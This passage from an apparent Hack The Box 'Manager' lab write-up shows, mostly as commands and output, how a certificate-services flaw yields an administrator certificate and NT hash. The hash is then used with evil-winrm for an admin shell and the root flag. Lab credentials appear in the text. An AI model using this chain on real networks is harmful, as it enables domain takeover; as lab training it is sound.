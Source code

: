 <br>
finally, we can retrieve the issued certificate.

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ certipy-ad req -u raven@manager.htb -p R4v3nBe5tD3veloP3r\!123 -ca 'manager-DC01-CA' -target manager.htb -retrieve 28
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Rerieving certificate with ID 28
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '28.key'
[*] Saved certificate and private key to 'administrator.pfx'
{% endvimhl %}

<br>
Sync kali's time with the DC.

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ sudo rdate -n manager.htb
Sat Oct 28 12:10:43 EDT 2023
{% endvimhl %}

<br>
Now we can get admin's credentials and get the flag

{% vimhl bash %}
┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.46.174                     
Certipy v4.7.0 - by Oliver Lyak (ly4k)
[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef

┌──(kali㉿kali)-[~/HTB/Manager/files]
└─$ evil-winrm -i 10.129.46.174 -u administrator -p "aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef"
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
893dc1cdea17e61cec7213a1f37*****
{% endvimhl %}